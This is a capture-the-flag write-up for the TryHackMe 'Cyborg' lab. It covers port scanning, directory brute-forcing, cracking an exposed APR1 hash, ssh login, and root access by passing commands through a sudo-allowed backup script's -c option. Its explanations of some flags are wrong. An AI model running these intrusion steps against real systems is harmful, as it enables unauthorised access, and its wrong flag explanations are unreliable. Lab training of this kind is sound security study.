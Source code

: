 # TRYHACKME – Cyborg (CTF)

![Cyborg.png](img/Cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![nmap-scan#1.png](img/nmap-scan1.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![gobuster-scan#1.png](img/gobuster-scan1.png)

Directories found:

/admin

/etc

![etc-dir#1.png](img/etc-dir1.png)

![etc-squid-dir#1.png](img/etc-squid-dir1.png)

![md5-hash#1.png](img/md5-hash1.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![hash-identifier#1.png](img/hash-identifier1.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![hashcat#1.png](img/hashcat1.png)

![admin-index-page-file#1.png](img/admin-index-page-file1.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![list-zip-file#1.png](img/list-zip-file1.png)

![unzip-tar-file#1.png](img/unzip-tar-file1.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![cat-file#1.png](img/cat-file1.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![ssh#1.png](img/ssh1.png)

**`cat user.txt`**

![cat-file#2.png](img/cat-file2.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![list-user-privileges#1.png](img/list-user-privileges1.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![mv-dir-mp3backups#1.png](img/mv-dir-mp3backups1.png)

**`cat backup.sh`**

![cat-file#3.png](img/cat-file3.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![run-file-arguments#1.png](img/run-file-arguments1.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![run-file-aguments#2.png](img/run-file-aguments2.png)

